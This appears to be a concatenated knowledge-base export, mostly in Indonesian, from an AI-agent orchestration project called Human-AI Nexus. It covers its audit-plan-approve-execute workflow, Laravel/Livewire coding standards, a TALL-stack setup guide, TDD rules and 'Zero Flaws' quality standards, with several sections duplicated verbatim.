1.  **Jangan hapus folder `documentation` secara manual** kecuali Anda benar-benar ingin membuang seluruh riwayat riset project.
2.  **Selalu pastikan `.gitignore` aktif** sebelum melakukan `git commit` pertama setelah instalasi Nexus.
3.  **Gunakan Safe Uninstall** jika Anda ingin mengupgrade versi engine tanpa merusak data memori yang sudah ada.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [vcs]

### 📘 KNOWLEDGE: NEXUS_INTEGRATION_ALGORITHM.MD

# 🛠 ALGORITMA INTEGRASI: Human-AI Nexus (Automated Engine Version)

Dokumen ini adalah **Sumber Kebenaran (Source of Truth)** untuk logika orkestrasi yang dijalankan oleh `NexusEngine`. Seluruh instruksi di sini diimplementasikan ke dalam kode program untuk memastikan konsistensi antara dokumentasi dan eksekusi.

## 📋 1. Setup & Inisialisasi

Sistem mengawali setiap siklus dengan fase **Intelligence Discovery**:
1.  **Skill Discovery**: Engine memetakan seluruh modul di folder `skill/` (Frontend, Backend, Security, dll).
2.  **Memory Access**: Engine membaca folder `records/` dan `knowledge/` untuk mendapatkan konteks dari sesi sebelumnya.

```bash
# Inisialisasi otomatis via Nexus Engine (GitHub Version)
npx github:Faisal-Trainer/Human-AI-Nexus nexus run
```

## 📋 2. Algoritma Audit (Dev-Centric Logic)

Fase audit adalah tahap penentu kualitas. Alur kerja ditentukan oleh tingkat pengalaman Developer (User):

### IF (Mode == "Learning")
- **Kondisi**: Developer baru atau membutuhkan edukasi teknis mendalam.
- **Tindakan**: 
    1. Orchestrator memanggil seluruh **Agent Spesialis** (Cyber Security, UX Engineer, SEO Specialist, Database Architect).
    2. Setiap Agent menghasilkan satu laporan mandiri di folder `audit/`.
- **Tujuan**: Memberikan transparansi penuh dan bahan pembelajaran dari tiap sudut pandang ahli.

### ELSE (Mode == "Efficient")
- **Kondisi**: Developer berpengalaman atau membutuhkan eksekusi cepat.
- **Tindakan**:
    1. Orchestrator memanggil **Project Manager (PM)**.
    2. PM melakukan scanning dan menulis satu laporan konsolidasi yang merangkum seluruh temuan utama.
- **Tujuan**: Efisiensi waktu dan fokus pada masalah strategis.

## 📋 3. Nexus Workflow (Siklus Otomatis)

Engine menjalankan siklus berikut secara rekursif:

1.  **Phase: Audit**: Menjalankan algoritma di atas (Learning/Efficient).
    - **Security Guardrail**: Engine meminta izin eksplisit sebelum menscan `.env`, `package.json`, dan `composer.json`.
2.  **Phase: Planning**: 
    - Input: Hasil audit terbaru (termasuk temuan keamanan jika diizinkan).
    - Action: PM menyusun dokumen di `planning/` berisi daftar tugas (TODO list).
3.  **Phase: Approval**:
    - Engine **WAJIB** berhenti dan menunggu input User (Ketik: "OKE" atau "APPROVE").
4.  **Phase: Execution**:
    - Agent Engineer mengeksekusi tugas sesuai rencana yang telah disetujui.
5.  **Phase: Recording**:
    - Mencatat hasil ke `records/` dan memperbarui memori di `knowledge/`.

## ⚠️ Aturan Emas (The Golden Rules)

1.  **Logic-First**: Kode program dilarang menyimpang dari algoritma yang tertulis di dokumen ini.
2.  **Zero Flaws Enforcement**: Siklus audit tidak boleh berhenti sebelum status proyek mencapai "Zero Flaws" sesuai [STANDAR_ZERO_FLAWS.md](STANDAR_ZERO_FLAWS.md).
3.  **Traceability**: Setiap file yang dihasilkan harus menyertakan referensi ke dokumen sumbernya (misal: Plan merujuk pada Audit ID tertentu).

---
*Dokumen ini mengatur bagaimana software dan manusia berkolaborasi dalam ekosistem Nexus.*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, ui-ux, database, vcs, marketing, psychology]

### 📘 KNOWLEDGE: NEXUS_INTERNAL_WORKFLOW.MD

# ⚙️ Alur Kerja Tim Internal: Human-AI Nexus (Protocol v3.0 — Autonomous Evolution)

Dokumen ini mengatur protokol operasional untuk ekspansi pengetahuan, pemeliharaan sistem, dan evolusi fisik mesin Nexus AI.

---

## ⚡ 1. Protokol: "Semantic Mass Refactor" (Golden ➔ HUB)
**Deskripsi**: Integrasi pengetahuan skala besar dengan pemetaan semantik otomatis.

*   **Aktor**: `Golden Crawler` & `Memory Pipeline v3`.
*   **Algoritma Kerja**:
    1.  **Cleansing Protocol**: Deteksi dan penghapusan data sensitif (API Keys, IP) secara otomatis.
    2.  **Semantic Tagging**: Memberikan label `[tag]` dinamis berdasarkan analisis konten.
    3.  **Semantic Linking**: Menghubungkan konsep antar dokumen secara otomatis di dalam HUB.

---

## ⚡ 2. Protokol: "Semantic Mass Update" (HUB ➔ Skill)
**Deskripsi**: Transformasi standar HUB menjadi keahlian agen berbasis distribusi semantik (Cross-Pollination).

*   **Aktor**: `Nexus Guru` & `Nexus Engine v3`.
*   **Algoritma Kerja**:
    1.  **Tag-Based Distribution**: Pengetahuan didistribusikan ke file `.md` di folder `workflow/` berdasarkan kesesuaian Tag Semantik.
    2.  **Cross-Pollination**: Satu sumber pengetahuan dapat memperbarui banyak kategori skill secara paralel.
    3.  **Contextual Wisdom**: Mengutamakan injeksi "Actionable Wisdom" (instruksi operasional) daripada teks mentah.

---

## ⚡ 3. Protokol: "Machine Forging" (Wisdom ➔ Code)
**Deskripsi**: Pembangunan mesin (tools) baru secara fisik berdasarkan pengetahuan yang dipelajari sistem.

*   **Trigger**: Penemuan standar teknis baru di HUB yang memerlukan pemantauan otomatis.
*   **Aktor**: `Machinist Forge`.
*   **Algoritma Kerja**:
    1.  **Wisdom Extraction**: Mengekstrak aturan teknis dari dokumen HUB terdistilasi.
    2.  **Physical Scaffolding**: Membuat file `.js` baru di `agent/tools/scanners/` berdasarkan template Nexus.
    3.  **Auto-Registration**: Mendaftarkan mesin baru ke dalam siklus audit Engine tanpa modifikasi manual.

---

## ⚡ 4. Protokol: "Plugin-Based Audit" (Autonomous Scanners)
**Deskripsi**: Pemanfaatan ekosistem mesin (scanners) yang bersifat dinamis dan dapat diperluas.

*   **Aktor**: `Nexus Engine` & `Dynamic Scanners Pool`.
*   **Algoritma Kerja**:
    1.  **Dynamic Discovery**: Engine memindai folder `scanners/` untuk menemukan seluruh modul audit yang aktif.
    2.  **Parallel Execution**: Menjalankan seluruh mesin (Core + Forged) secara paralel untuk mencari anomali sistem.

---

## ⚡ 5. Protokol: "Ecosystem Synchronization"
**Deskripsi**: Sinkronisasi dokumentasi publik (README, dsb) untuk mencerminkan status evolusi terbaru.

---
*Status: Protokol v3.0 Aktif (Autonomous Evolution)*
*Target: Zero Flaws & Physical Self-Evolution*

### 📘 KNOWLEDGE: NEXUS_LIVEWIRE_STANDARDS.MD

# ⚡ LIVEWIRE & ARCHITECTURE STANDARDS

Dokumen ini mencatat standar penulisan komponen Livewire di dalam ekosistem Nexus untuk memastikan kompatibilitas IDE dan performa maksimal.

---

## 1. Layout Definition
**Masalah**: Penggunaan method chaining `->layout('layouts.app')` pada fungsi `render()` sering menyebabkan *Undefined Method* linting error di beberapa IDE meskipun secara fungsional valid di Livewire 3.

**Standar Nexus**: Gunakan **PHP Attributes** di atas metode `render()` atau di atas deklarasi class untuk mendefinisikan layout.

```php
// ✅ BENAR (Gunakan Attribute)
use Livewire\Attributes\Layout;

#[Layout('layouts.app')]
public function render()
{
    return view('livewire.component');
}

// ❌ HINDARI (Dapat menyebabkan lint error)
public function render()
{
    return view('livewire.component')->layout('layouts.app');
}
```

---

## 2. Mass Assignment Protection
Seluruh model interaksi (Rating, Bookmark, Follow) **WAJIB** menggunakan `$fillable` secara eksplisit. Penggunaan `$guarded = []` sangat dilarang untuk menjaga integritas "Zero Flaws".

---

## 3. Media Protocol (WebP)
Setiap komponen yang menangani unggahan gambar harus menyertakan logic konversi ke **WebP** menggunakan `Intervention/Image` sebelum disimpan ke storage untuk efisiensi bandwidth.

---

## 4. UUID Consistency
Seluruh tabel database menggunakan `UUID` sebagai Primary Key. Jangan pernah menggunakan `id` (integer) untuk entitas yang terekspos ke publik atau entitas yang akan menjadi aset IP.

---
*Last Updated: 2026-04-28 by Nexus Orchestrator.*


--- APPENDED FROM LIVEWIRE_STANDARDS.md ---
# ⚡ LIVEWIRE & ARCHITECTURE STANDARDS

Dokumen ini mencatat standar penulisan komponen Livewire di dalam ekosistem Nexus untuk memastikan kompatibilitas IDE dan performa maksimal.

---

## 1. Layout Definition
**Masalah**: Penggunaan method chaining `->layout('layouts.app')` pada fungsi `render()` sering menyebabkan *Undefined Method* linting error di beberapa IDE meskipun secara fungsional valid di Livewire 3.

**Standar Nexus**: Gunakan **PHP Attributes** di atas metode `render()` atau di atas deklarasi class untuk mendefinisikan layout.

```php
// ✅ BENAR (Gunakan Attribute)
use Livewire\Attributes\Layout;

#[Layout('layouts.app')]
public function render()
{
    return view('livewire.component');
}

// ❌ HINDARI (Dapat menyebabkan lint error)
public function render()
{
    return view('livewire.component')->layout('layouts.app');
}
```

---

## 2. Mass Assignment Protection
Seluruh model interaksi (Rating, Bookmark, Follow) **WAJIB** menggunakan `$fillable` secara eksplisit. Penggunaan `$guarded = []` sangat dilarang untuk menjaga integritas "Zero Flaws".

---

## 3. Media Protocol (WebP)
Setiap komponen yang menangani unggahan gambar harus menyertakan logic konversi ke **WebP** menggunakan `Intervention/Image` sebelum disimpan ke storage untuk efisiensi bandwidth.

---

## 4. UUID Consistency
Seluruh tabel database menggunakan `UUID` sebagai Primary Key. Jangan pernah menggunakan `id` (integer) untuk entitas yang terekspos ke publik atau entitas yang akan menjadi aset IP.

---
*Last Updated: 2026-04-28 by Nexus Orchestrator.*


--- APPENDED FROM LIVEWIRE_STANDARDS.md ---
# ⚡ LIVEWIRE & ARCHITECTURE STANDARDS

Dokumen ini mencatat standar penulisan komponen Livewire di dalam ekosistem Nexus untuk memastikan kompatibilitas IDE dan performa maksimal.

---

## 1. Layout Definition
**Masalah**: Penggunaan method chaining `->layout('layouts.app')` pada fungsi `render()` sering menyebabkan *Undefined Method* linting error di beberapa IDE meskipun secara fungsional valid di Livewire 3.

**Standar Nexus**: Gunakan **PHP Attributes** di atas metode `render()` atau di atas deklarasi class untuk mendefinisikan layout.

```php
// ✅ BENAR (Gunakan Attribute)
use Livewire\Attributes\Layout;

#[Layout('layouts.app')]
public function render()
{
    return view('livewire.component');
}

// ❌ HINDARI (Dapat menyebabkan lint error)
public function render()
{
    return view('livewire.component')->layout('layouts.app');
}
```

---

## 2. Mass Assignment Protection
Seluruh model interaksi (Rating, Bookmark, Follow) **WAJIB** menggunakan `$fillable` secara eksplisit. Penggunaan `$guarded = []` sangat dilarang untuk menjaga integritas "Zero Flaws".

---

## 3. Media Protocol (WebP)
Setiap komponen yang menangani unggahan gambar harus menyertakan logic konversi ke **WebP** menggunakan `Intervention/Image` sebelum disimpan ke storage untuk efisiensi bandwidth.

---

## 4. UUID Consistency
Seluruh tabel database menggunakan `UUID` sebagai Primary Key. Jangan pernah menggunakan `id` (integer) untuk entitas yang terekspos ke publik atau entitas yang akan menjadi aset IP.

---
*Last Updated: 2026-04-28 by Nexus Orchestrator.*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, performance, ui-ux, database, nexus_institutionalized]

### 📘 KNOWLEDGE: NEXUS_MEDIA_PROTOCOL.MD

# 🖼️ MEDIA HANDLING PROTOCOL

## 1. Image Strategy
- **Format**: Prefer **WebP** for all web-based visual assets due to superior compression.
- **Responsiveness**: Images should be resized to the maximum necessary display size (e.g., 800px width for book covers) to prevent bandwidth waste.
- **Metadata**: Strip unnecessary EXIF data to reduce file size.

## 2. Storage Best Practices
- Use a clear directory structure (e.g., `public/storage/{category}/{uuid}/`).
- Implement automated cleanup for temporary or abandoned assets.


--- APPENDED FROM MEDIA_PROTOCOL.md ---
# 🖼️ MEDIA HANDLING PROTOCOL

## 1. Image Strategy
- **Format**: Prefer **WebP** for all web-based visual assets due to superior compression.
- **Responsiveness**: Images should be resized to the maximum necessary display size (e.g., 800px width for book covers) to prevent bandwidth waste.
- **Metadata**: Strip unnecessary EXIF data to reduce file size.

## 2. Storage Best Practices
- Use a clear directory structure (e.g., `public/storage/{category}/{uuid}/`).
- Implement automated cleanup for temporary or abandoned assets.


--- APPENDED FROM MEDIA_PROTOCOL.md ---
# 🖼️ MEDIA HANDLING PROTOCOL

## 1. Image Strategy
- **Format**: Prefer **WebP** for all web-based visual assets due to superior compression.
- **Responsiveness**: Images should be resized to the maximum necessary display size (e.g., 800px width for book covers) to prevent bandwidth waste.
- **Metadata**: Strip unnecessary EXIF data to reduce file size.

## 2. Storage Best Practices
- Use a clear directory structure (e.g., `public/storage/{category}/{uuid}/`).
- Implement automated cleanup for temporary or abandoned assets.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [performance, database, nexus_institutionalized]

### 📘 KNOWLEDGE: NEXUS_ORCHESTRATOR_GOLDEN_PROTOCOL.MD

# 🛡️ ORCHESTRATOR GOLDEN PROTOCOL

**Tujuan**: Menjadikan folder `golden/` sebagai pusat kebenaran (Source of Truth) dinamis untuk seluruh operasi Nexus.

## 📜 Protokol Wajib:
1. **Always Audit Golden**: Sebelum memulai fase `Audit` atau `Planning` pada proyek apa pun, Orchestrator **HARUS** melakukan pemindaian menyeluruh terhadap folder `golden/`.
2. **Absorb New Findings**: Jika User meletakkan temuan atau standar baru di folder `golden/` (hasil dari proyek lain), Orchestrator wajib menganggap hal tersebut sebagai **Standard Operating Procedure (SOP)** terbaru.
3. **Cross-Project Intelligence**: Gunakan solusi yang berhasil di proyek "NEXUS LORE" atau "Portofolio" (yang ada di Golden) untuk memecahkan masalah serupa di proyek masa depan.
4. **Zero Flaws Calibration**: Gunakan file `[ZERO_FLAWS_STANDARDS.md](NEXUS_ZERO_FLAWS_STANDARDS.MD)` di dalam folder Golden untuk mengkalibrasi ulang apa yang dianggap sebagai "Nol Cacat".

## 🛠️ Instruksi Teknis:
- Jika `golden/` berisi folder baru, segera petakan strukturnya.
- Jika terdapat file `documentation/planning/` atau `documentation/algorithms/` di Golden, jadikan itu referensi penulisan dokumen baru.

---
*Catatan ini adalah bagian permanen dari memori kerja Orchestrator.*
*Dibuat berdasarkan instruksi User pada: 2026-04-28.*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, nexus_institutionalized]

### 📘 KNOWLEDGE: NEXUS_PROJECT_MATURITY_STANDARDS.MD

# Project Maturity Standards
## High-Performance & Security Baseline

### 🛡️ Security Best Practices (Applied)
1. **Zero Hardcoded Credentials**: Selalu gunakan `config()` dan `.env`. Jangan pernah menuliskan email atau token langsung di file PHP.
2. **MCP Tokenization**: Setiap endpoint API eksternal yang mengecualikan CSRF wajib divalidasi menggunakan `X-MCP-Token`.

### 🚀 SEO & Content Standards (Applied)
1. **Automated Indexing**: Setiap publikasi `Post` harus memicu perintah `seo:ping` untuk notifikasi mesin pencari (Google/Bing).
2. **Metadata Consistency**: Gunakan JSON-LD `@graph` untuk seluruh entitas halaman guna memperkuat skema Rich Snippets.

### 🖼️ Asset Optimization (Applied)
1. **WebP Conversion**: Seluruh gambar yang diupload untuk Proyek atau Blog wajib diproses melalui `ImageService` untuk konversi ke format WebP (Quality 80%).
2. **Lazy Loading**: Pastikan tag gambar di frontend selalu menyertakan atribut `loading="lazy"`.

### 🧠 Orchestration Workflow (Lessons Learned)
1. **Audit-First**: Selalu lakukan pemindaian multispesialis sebelum melakukan perubahan besar.
2. **Documentation-First**: Gunakan folder `nexus/docs/` sebagai sumber kebenaran teknis.

---
*Persisted by Nexus Orchestrator*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [performance, ui-ux, database, tdd, marketing]

### 📘 KNOWLEDGE: NEXUS_STANDARD WORKFLOW PROJECT TES.MD

# Standard Workflow PBL TALL Stack
> **VERSION**: v2 | **Last Updated**: 26/05/2026


Workflow ini dirancang agar setiap project:

- memiliki struktur engineering yang konsisten,
- scalable,
- mudah direfactor,
- dan membangun habit developer level production.

---

# GLOBAL DEVELOPMENT FLOW

```text
Ide Project
    ↓
Problem Definition
    ↓
Requirement Breakdown
    ↓
Project Setup
    ↓
Install TALL Dependencies
    ↓
Database Design
    ↓
UI/UX Planning
    ↓
Feature Development
    ↓
Testing
    ↓
Refactor
    ↓
Optimization
    ↓
Deployment
    ↓
Documentation
    ↓
Portfolio Publish
```

---

# 1. PROJECT INITIALIZATION

## Create Laravel Project

```bash
composer create-project laravel/laravel project-name
```

atau:

```bash
laravel new project-name
```

---

## Masuk ke Project

```bash
cd project-name
```

---

# 2. INSTALL TALL STACK

# Install Tailwind CSS

## Install dependencies

```bash
npm install -D tailwindcss postcss autoprefixer
```

## Init Tailwind

```bash
npx tailwindcss init -p
```

---

## Configure tailwind.config.js

```js
content: [
    "./resources/**/*.blade.php",
    "./resources/**/*.js",
    "./resources/**/*.vue",
],
```

---

## Import Tailwind

### resources/css/app.css

```css
@tailwind base;
@tailwind components;
@tailwind utilities;
```

---

# Install Alpine.js

```bash
npm install alpinejs
```

---

## resources/js/app.js

```js
import Alpine from "alpinejs";

window.Alpine = Alpine;

Alpine.start();
```

---

# Install Livewire

## Livewire v3

```bash
composer require livewire/livewire
```

---

## Publish assets

```bash
php artisan livewire:publish --assets
```

---

# Install Additional Core Packages

## Laravel Debugbar

```bash
composer require barryvdh/laravel-debugbar --dev
```

---

## Laravel Pint

```bash
composer require laravel/pint --dev
```

---

## Laravel IDE Helper

```bash
composer require --dev barryvdh/laravel-ide-helper
```

---

## Spatie Permission

```bash
composer require spatie/laravel-permission
```

---

## Laravel Telescope (optional)

```bash
composer require laravel/telescope --dev
```

---

# Frontend Build

## Install NPM

```bash
npm install
```

---

## Run Vite

```bash
npm run dev
```

---

# 3. ENVIRONMENT SETUP

# Configure .env

## Database

```env
DB_DATABASE=project_db
DB_USERNAME=root
DB_PASSWORD=
```

---

## App URL

```env
APP_URL=http://localhost:8000
```

---

## Queue

```env
QUEUE_CONNECTION=database
```

---

## Cache

```env
CACHE_DRIVER=database
```

---

# Generate App Key

```bash
php artisan key:generate
```

---

# Run Migration

```bash
php artisan migrate
```

---

# 4. PROJECT ARCHITECTURE PLANNING

# Sebelum Coding

WAJIB buat:

## Feature List

Contoh:

```text
- Authentication
- Dashboard
- CRUD Task
- Realtime Notification
- Activity Log
```

---

## Database Schema

Contoh:

```text
users
tasks
task_comments
task_labels
notifications
```

---

## Relationship Mapping

Contoh:

```text
User
 └── hasMany Tasks

Task
 └── belongsTo User
 └── hasMany Comments
```

---

# 5. UI/UX PLANNING

# Wajib Sebelum Coding UI

## Tentukan:

- layout app
- navigation
- component reusable
- responsive behavior
- state interaction

---

# Recommended Structure

```text
resources/views/
    layouts/
    pages/
    components/
```

---

# Livewire Structure

```text
app/Livewire/
    Dashboard/
    Tasks/
    Users/
```

---

# 6. FEATURE DEVELOPMENT FLOW

# Standard Flow

```text
Migration
    ↓
Model
    ↓
Seeder
    ↓
Factory
    ↓
Policy
    ↓
Livewire Component
    ↓
Blade UI
    ↓
Testing
```

---

# Example Development

## Create Model + Migration

```bash
php artisan make:model Task -m
```

---

## Create Livewire Component

```bash
php artisan make:livewire Tasks/Index
```

---

## Create Policy

```bash
php artisan make:policy TaskPolicy --model=Task
```

---

## Create Seeder

```bash
php artisan make:seeder TaskSeeder
```

---

# 7. DEVELOPMENT RULES

# Rule 1 — Jangan Coding Tanpa Scope

Selalu definisikan:

- input
- output
- state
- edge case

---

# Rule 2 — Build MVP Dulu

Jangan:

- terlalu fokus UI
- premature optimization
- micro animation berlebihan

---

# Rule 3 — Refactor Berkala

Setelah feature selesai:

- pecah component
- optimize query
- reusable abstraction

---

# Rule 4 — Gunakan Service Layer

Untuk business logic besar:

```text
app/Services/
```

Contoh:

```text
TaskService.php
PaymentService.php
NotificationService.php
```

---

# 8. TESTING FLOW

# Minimal Testing

## Feature Test

```bash
php artisan make:test TaskTest
```

---

## Jalankan Test

```bash
php artisan test
```

---

# Yang Wajib Dites

- auth
- validation
- permission
- CRUD
- edge case

---

# 9. PERFORMANCE OPTIMIZATION

# Checklist

## Query Optimization

Gunakan:

```php
with()
load()
lazy()
```

---

## Cache

```php
Cache::remember()
```

---

## Queue

Untuk:

- email
- notification
- heavy process

---

## Pagination

```php
paginate()
```

---

## Debounce Input

```html
wire:model.live.debounce.500ms
```

---

# 10. SECURITY CHECKLIST

# Wajib

## Authorization

```php
Gate
Policy
```

---

## Validation

```php
$request->validate()
```

---

## Rate Limiting

```php
ThrottleRequests
```

---

## XSS Protection

Gunakan:

- escaped output
- sanitization

---

## CSRF Protection

Laravel sudah built-in.

---

# 11. REFACTOR PHASE

# Setelah MVP Selesai

## Evaluasi:

- duplicated code
- fat component
- long method
- N+1 query
- reusable UI

---

# Refactor Goal

Dari:

```text
messy app
```

menjadi:

```text
maintainable architecture
```

---

# 12. DEPLOYMENT FLOW

# Production Build

## Build assets

```bash
npm run build
```

---

## Optimize Laravel

```bash
php artisan optimize
```

---

## Queue Worker

```bash
php artisan queue:work
```

---

# Optional Deployment

- VPS
- Forge
- Ploi
- Docker
- Railway
- Laravel Cloud

---

# 13. DOCUMENTATION FLOW

# Wajib Ada

## README.md

Isi:

- project overview
- stack
- installation
- features
- screenshots

---

## Architecture Notes

Contoh:

```text
docs/[architecture.md](../ui-ux/NEXUS_ARCHITECTURE.MD)
```

---

## API Notes

Jika ada API:

```text
docs/api.md
```

---

## Database Diagram

Gunakan:

- dbdiagram.io
- drawSQL

---

# 14. POST PROJECT REVIEW

# Setelah Project Selesai

## Jawab:

### Technical

- bagian tersulit?
- bottleneck?
- scaling issue?

### Product

- UX problem?
- missing feature?
- usability issue?

### Engineering

- apakah code maintainable?
- apakah component reusable?
- apakah architecture scalable?

---

# 15. PORTFOLIO STRUCTURE

# Simpan Semua Project Dengan Struktur

```text
projects/
    01-todo-app
    02-habit-tracker
    03-kanban-board
```

---

# Setiap Project Harus Punya

```text
README.md
screenshots/
docs/
```

---

# GOLDEN RULE PBL

## Jangan Fokus:

- cepat selesai

## Fokus:

- problem solving
- architecture thinking
- maintainability
- scalability
- engineering habit

---

# TARGET OUTCOME

Jika workflow ini dilakukan terus-menerus, kamu akan berkembang dari:

```text
Coder
```

menjadi:

```text
Software Engineer
```

dan akhirnya:

```text
System Architect / SaaS Engineer
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, ui-ux, performance, tdd, saas, api]

### 📘 KNOWLEDGE: NEXUS_SUPERPOWERS_WORKFLOW.MD

# ⚡ NEXUS SUPERPOWERS WORKFLOW (Institutional Memory)

Dokumen ini mengadopsi prinsip **Superpowers** untuk menjamin kedisiplinan tingkat tinggi dalam pengembangan perangkat lunak.

## 1. Hukum Besi (The Iron Laws)
- **TDD (Test-Driven Development)**: Dilarang menulis kode produksi sebelum ada pengujian (test) yang gagal terlebih dahulu.
- **Systematic Debugging**: Dilarang melakukan perbaikan (fix) sebelum melakukan investigasi akar masalah (root cause).
- **Evidence-Based Verification**: Dilarang mengklaim tugas selesai tanpa bukti (evidence) berupa log eksekusi atau hasil test yang valid.

## 2. Gerbang Persetujuan (Approval Gates)
Gunakan checkpoint manusia pada titik-titik kritis:
1. **Design Gate**: Setujui desain sebelum lanjut ke perencanaan.
2. **Plan Gate**: Setujui rencana sebelum menulis kode.
3. **Review Gate**: Setujui hasil implementasi sebelum melakukan merge/commit.

## 3. Systematic Debugging Framework
1. **Observation**: Catat perilaku aneh.
2. **Hypothesis**: Buat hipotesis penyebab.
3. **Experiment**: Lakukan pengetesan untuk membuktikan hipotesis.
4. **Fix & Verify**: Terapkan solusi dan verifikasi dengan test.

---
*Status: Institutional Knowledge (Workflow Discipline).*
*Referenced from: amplifier-bundle-superpowers.*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, tdd, vcs, nexus_institutionalized]

### 📘 KNOWLEDGE: NEXUS_TDD_IRON_LAWS.MD

# 🔴 NEXUS TDD IRON LAWS

Dokumen ini menetapkan standar pengujian berbasis **Test-Driven Development (TDD)** untuk menjamin kebenaran kode sejak baris pertama.

## 1. Hukum Utama (The Iron Law)
> **TIDAK ADA KODE PRODUKSI TANPA TEST YANG GAGAL TERLEBIH DAHULU.**

Jika Anda menulis kode sebelum test? **Hapus kodenya. Mulai dari awal.**

## 2. Siklus Red-Green-Refactor
1. **RED (Gagal)**: Tulis satu test minimal untuk perilaku yang diinginkan. Jalankan test dan pastikan ia **GAGAL** dengan alasan yang benar.
2. **GREEN (Berhasil)**: Tulis kode **paling sederhana** hanya untuk meloloskan test tersebut. Jangan melakukan optimasi atau menambahkan fitur tambahan.
3. **REFACTOR (Bersihkan)**: Setelah test berhasil (Green), bersihkan kode dari duplikasi, perbaiki penamaan, dan optimalkan struktur tanpa merubah perilaku.

## 3. Aturan Debugging dengan TDD
Bug ditemukan? 
1. Tulis test yang mereproduksi bug tersebut (Test Gagal).
2. Terapkan siklus TDD untuk memperbaikinya.
3. Test tersebut kini berfungsi sebagai pelindung regresi (mencegah bug muncul kembali).

---
*Status: Institutional Knowledge (TDD Discipline).*
*Referenced from: Superpowers TDD Skill.*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd, nexus_institutionalized]

### 📘 KNOWLEDGE: NEXUS_WORKFLOW.MD

# Nexus Workflow

The Human-AI Nexus follows a 4-phase cyclical workflow designed to ensure maximum quality and traceability.

## 1. Audit Phase
The system (or specialized agents) scans the current state of the project.
- **Security Guardrails**: The engine will request explicit permission before scanning sensitive files (`.env`, `package.json`, `composer.json`).
- **Input**: Source code, documentation, and (if permitted) configuration files.
- **Output**: An Audit Report in `audit/`.
- **Goal**: Identify gaps, bugs, or opportunities for improvement.

## 2. Planning Phase
Based on the audit report, a detailed plan is generated.
- **Input**: Audit Report.
- **Output**: Implementation Plan in `documentation/planning/`.
- **Human Role**: Review and approve the plan.

## 3. Execution Phase
Specialized agents execute the tasks defined in the plan.
- **Input**: Approved Implementation Plan.
- **Action**: Code generation, configuration updates, or content creation.
- **Constraint**: Agents must follow the standards in `skill/`.

## 4. Finalization Phase
The results are recorded and the knowledge base is updated.
- **Input**: Execution results.
- **Output**: Logs in `memory/short_term/` and summaries in `documentation/summary/`.
- **Loop**: Trigger a new Audit to verify the changes.

---

### Zero Flaws Enforcement
The cycle repeats until an audit results in "Zero Flaws". This ensures that no technical debt or bugs are left behind.

### 📘 KNOWLEDGE: NEXUS_ZERO_FLAWS_STANDARDS.MD

# ✅ ZERO FLAWS STANDARDS

## 1. Code Quality
- **Predictability**: Code must be deterministic and easy to trace.
- **Maintainability**: Follow SOLID principles and DRY (Don't Repeat Yourself).
- **Standards**: Strictly adhere to industry-standard linting and style guides (e.g., PSR for PHP, Airbnb for JS).

## 2. Performance (Speed is a Feature)
- **Asset Optimization**: All visual assets must be compressed and served in modern formats (e.g., WebP).
- **TBT (Total Blocking Time)**: Minimize JavaScript execution time.
- **LCP (Largest Contentful Paint)**: Ensure core content is visible within < 2.5s.

## 3. Security (Defense in Depth)
- **Input Validation**: Never trust user input. Sanitize and validate everything.
- **Least Privilege**: Users and processes should only have the minimum access necessary.
- **Traceability**: Every sensitive action must be logged and auditable.


--- APPENDED FROM ZERO_FLAWS_STANDARDS.md ---
# ✅ ZERO FLAWS STANDARDS

## 1. Code Quality
- **Predictability**: Code must be deterministic and easy to trace.
- **Maintainability**: Follow SOLID principles and DRY (Don't Repeat Yourself).
- **Standards**: Strictly adhere to industry-standard linting and style guides (e.g., PSR for PHP, Airbnb for JS).

## 2. Performance (Speed is a Feature)
- **Asset Optimization**: All visual assets must be compressed and served in modern formats (e.g., WebP).
- **TBT (Total Blocking Time)**: Minimize JavaScript execution time.
- **LCP (Largest Contentful Paint)**: Ensure core content is visible within < 2.5s.

## 3. Security (Defense in Depth)
- **Input Validation**: Never trust user input. Sanitize and validate everything.
- **Least Privilege**: Users and processes should only have the minimum access necessary.
- **Traceability**: Every sensitive action must be logged and auditable.


--- APPENDED FROM ZERO_FLAWS_STANDARDS.md ---
# ✅ ZERO FLAWS STANDARDS

## 1. Code Quality
- **Predictability**: Code must be deterministic and easy to trace.
- **Maintainability**: Follow SOLID principles and DRY (Don't Repeat Yourself).
- **Standards**: Strictly adhere to industry-standard linting and style guides (e.g., PSR for PHP, Airbnb for JS).

## 2. Performance (Speed is a Feature)
- **Asset Optimization**: All visual assets must be compressed and served in modern formats (e.g., WebP).
- **TBT (Total Blocking Time)**: Minimize JavaScript execution time.
- **LCP (Largest Contentful Paint)**: Ensure core content is visible within < 2.5s.

## 3. Security (Defense in Depth)
- **Input Validation**: Never trust user input. Sanitize and validate everything.
- **Least Privilege**: Users and processes should only have the minimum access necessary.
- **Traceability**: Every sensitive action must be logged and auditable.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [performance, ui-ux, tdd, nexus_institutionalized]

### 📘 KNOWLEDGE: NEXUS_ADAPTIVE_STRATEGY_AGENT_SESSION_HISTORY_ARCHIVE.MD

## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144623889 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 9
- **Audit ID**: AUDIT-1778144623889-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778144623889-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778144623889-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778144623889-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778144623889-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
